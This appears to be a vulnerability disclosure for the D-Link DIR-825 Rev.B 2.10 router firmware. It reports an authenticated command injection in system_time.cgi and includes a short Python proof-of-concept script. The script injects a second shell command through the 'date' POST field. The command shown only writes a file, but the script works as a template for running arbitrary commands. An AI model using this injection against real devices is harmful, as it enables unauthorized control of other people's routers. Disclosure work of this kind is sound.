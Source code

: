 ### Description 
```
there is a command injection vulnerability that can cause any system command to be executed after user authentication 

Vulnerability location: file:  /sbin/httpd

The attacker calls this function by sending a post packet to the http://ip/system_time.cgi.
```

### Firmware version
```
version: Rev.B 2.10
download link: ftp://ftp2.dlink.com/SECURITY_ADVISEMENTS/DIR-825/REVB/
```

### Post package
```
   5 ip = "http://192.168.0.1/"
   6
   7 url = ip + 'system_time.cgi'
   8 command = "20080523; echo 2 > /tmp/hello2"
   9
  10 payload = {
  11     "date": command,
  12     "html_response_return_page": "static_routing.asp",
  13 }
  14
  15 r = requests.post(url, data=payload)
```

### Exploit exp
`python3 date-comm.py`

### Example output
![Example output](./img/date-command-inject.jpg)

> ![images](https://github.com/kuc001/IoTFirmware/blob/master/D-Link/date-command-inject.jpg)
